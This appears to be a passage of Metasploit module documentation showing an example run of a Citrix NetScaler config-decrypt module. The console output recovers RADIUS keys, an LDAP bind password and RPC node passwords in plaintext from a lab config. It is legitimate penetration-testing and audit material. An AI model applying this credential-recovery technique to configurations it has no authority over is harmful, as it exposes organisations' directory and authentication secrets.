 Example run against config file without KEK from NetScaler VPX running NS11.0 Build 62.10.nc:
```
msf6 > use modules/auxiliary/admin/citrix/citrix_netscaler_config_decrypt
msf6 auxiliary(admin/citrix/citrix_netscaler_config_decrypt) > set ns_conf /tmp/ns.conf.NS11.0-62.10.conf
ns_conf => /tmp/ns.conf.NS11.0-62.10.conf
msf6 auxiliary(admin/citrix/citrix_netscaler_config_decrypt) > dump

[*] Config line:
add ssl certKey netscaler_cesium137_io -cert netscaler_cesium137_io.pem -key netscaler_cesium137_io.key -passcrypt "VbuAvo9nq18Zap0joBBv1a1Chm5BOerJ3GhYWU+Wbv0=" -expiryMonitor DISABLED
[!] Not decrypting passcrypt entry:
[!] Ciphertext: VbuAvo9nq18Zap0joBBv1a1Chm5BOerJ3GhYWU+Wbv0=
[*] Config line:
set ns encryptionParams -method AES256 -keyValue 7654526a2f3ceffd877b286a8acece43da700d06133dc985f7ebdeb076135bcb755472e04f5d92aba9f07334eb8e936a58782ce76bb3f6d6e44adf727e8e88d602b8bdae1817d26203fe281a8429574d -encrypted -encryptmethod ENCMTHD_3
[+] Plaintext: AAAAAAXyju437Ecnb/iQpa55uUvOskx7S5hCq5dB4kMq+Lcx6g==
[*] Config line:
add authentication radiusAction UTIL1 -serverIP 10.100.10.13 -serverPort 1812 -radKey f8e4f532e9d4e6bebab169b3be9e77b5c851466b7760c469bd64a15d2e8d3c602025c41372094d06e207789d58b6acb7 -encrypted -encryptmethod ENCMTHD_3
[+] Plaintext: hbZaADYDUmdHv7AhHsAb6eCde2M82m0
[*] Config line:
add authentication ldapAction LDAP -serverName ldap.cesium137.io -serverPort 636 -ldapBase "DC=chainheart,DC=com" -ldapBindDn wiz@cesium137.io -ldapBindDnPassword f5dc75680b925dbd3c0a8154c8fee056bfe77ac774797de3c0867d368bd09c2cdd872a36e15a1f07abf773740e2c8a12 -encrypted -encryptmethod ENCMTHD_3 -ldapLoginName sAMAccountName -groupAttrName memberOf -secType SSL -ldapHostname ldap.cesium137.io
[+] User: wiz@cesium137.io
[+] Pass: 2AxDGAhirQWuuGxFpSq9ehFwny81RSm
[*] Config line:
set ns rpcNode 10.100.10.11 -password 9ec84444b10941dc4222f93b29a75f0aa237ffdcc73a81355bf5d1cf3d80058daaad7ca58e488e54bc3ff3eea8ffd9eb -encrypted -encryptmethod ENCMTHD_3 -srcIP 10.100.10.11
[+] Plaintext: 447a325517739063bbaa414ecf1d9c3
[*] Config line:
set ns rpcNode 10.100.10.12 -password dd5c0c4952509e2fcfaeb238dfc361b79a844df09254087920ee0cf4dc447161bde8491d8a39ded0fa2526cc46e6a00f -encrypted -encryptmethod ENCMTHD_3 -srcIP 10.100.10.11
[+] Plaintext: 447a325517739063bbaa414ecf1d9c3
[*] Config line:
add lb monitor mon_ldaps LDAP -scriptName nsldap.pl -dispatcherIP 127.0.0.1 -dispatcherPort 3013 -password e209865546c3d2e8462e3e7a962252eb6d9e26374163c8d902fc3535cb12638c514765dcea4792eb1e3e6b5e1c1c4cef -encrypted -encryptmethod ENCMTHD_3 -LRTM DISABLED -secure YES -baseDN "DC=chainheart,DC=com" -bindDN wiz@cesium137.io -filter CN=builtin
[+] User: wiz@cesium137.io
[+] Pass: 2AxDGAhirQWuuGxFpSq9ehFwny81RSm
[*] Config line:
add lb monitor mon_ldap LDAP -scriptName nsldap.pl -dispatcherIP 127.0.0.1 -dispatcherPort 3013 -password 4ae7bec92e25d985df315e543b846b2c30346840d8e945f5073832c3e479d60eee581f67d671759ae555210529eaec8d -encrypted -encryptmethod ENCMTHD_3 -LRTM DISABLED -destPort 636 -secure YES -baseDN "DC=chainheart,DC=com" -bindDN wiz@cesium137.io -filter CN=builtin
[+] User: wiz@cesium137.io
[+] Pass: 2AxDGAhirQWuuGxFpSq9ehFwny81RSm
[*] Auxiliary module execution completed
msf6 auxiliary(admin/citrix/citrix_netscaler_config_decrypt) > 
```
